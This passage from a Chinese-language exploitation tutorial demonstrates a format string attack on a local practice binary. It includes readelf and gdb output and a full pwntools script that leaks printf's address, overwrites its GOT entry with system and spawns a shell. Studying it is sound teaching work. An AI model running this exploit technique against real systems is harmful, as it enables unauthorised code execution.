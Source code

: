 读取重定位表获得 `printf()` 的 GOT 地址（第一列 Offset）：

```text
$ readelf -r a.out

Relocation section '.rel.dyn' at offset 0x2f4 contains 2 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
08049ff8  00000406 R_386_GLOB_DAT    00000000   __gmon_start__
08049ffc  00000706 R_386_GLOB_DAT    00000000   stdout@GLIBC_2.0

Relocation section '.rel.plt' at offset 0x304 contains 5 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
0804a00c  00000107 R_386_JUMP_SLOT   00000000   read@GLIBC_2.0
0804a010  00000207 R_386_JUMP_SLOT   00000000   printf@GLIBC_2.0
0804a014  00000307 R_386_JUMP_SLOT   00000000   fflush@GLIBC_2.0
0804a018  00000507 R_386_JUMP_SLOT   00000000   __libc_start_main@GLIBC_2.0
0804a01c  00000607 R_386_JUMP_SLOT   00000000   memset@GLIBC_2.0
```

在 gdb 中获得 `printf()` 的虚拟地址：

```text
gdb-peda$ p printf
$1 = {<text variable, no debug info>} 0xf7e26bf0 <printf>
```

获得 `system()` 的虚拟地址：

```text
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xf7e17060 <system>
```

好了，演示完怎样用手工的方式得到构造 exp 需要的信息，下面我们给出使用 pwntools 构造的完整漏洞利用代码：

```python
# -*- coding: utf-8 -*-
from pwn import *

elf = ELF('./a.out')
r = process('./a.out')
libc = ELF('/usr/lib32/libc.so.6')

# 计算偏移量
def exec_fmt(payload):
    r.sendline(payload)
    info = r.recv()
    return info
auto = FmtStr(exec_fmt)
offset = auto.offset

# 获得 printf 的 GOT 地址
printf_got = elf.got['printf']
log.success("printf_got => {}".format(hex(printf_got)))

# 获得 printf 的虚拟地址
payload = p32(printf_got) + '%{}$s'.format(offset)
r.send(payload)
printf_addr = u32(r.recv()[4:8])
log.success("printf_addr => {}".format(hex(printf_addr)))

# 获得 system 的虚拟地址
system_addr = printf_addr - (libc.symbols['printf'] - libc.symbols['system'])
log.success("system_addr => {}".format(hex(system_addr)))

payload = fmtstr_payload(offset, {printf_got : system_addr})
r.send(payload)
r.send('/bin/sh')
```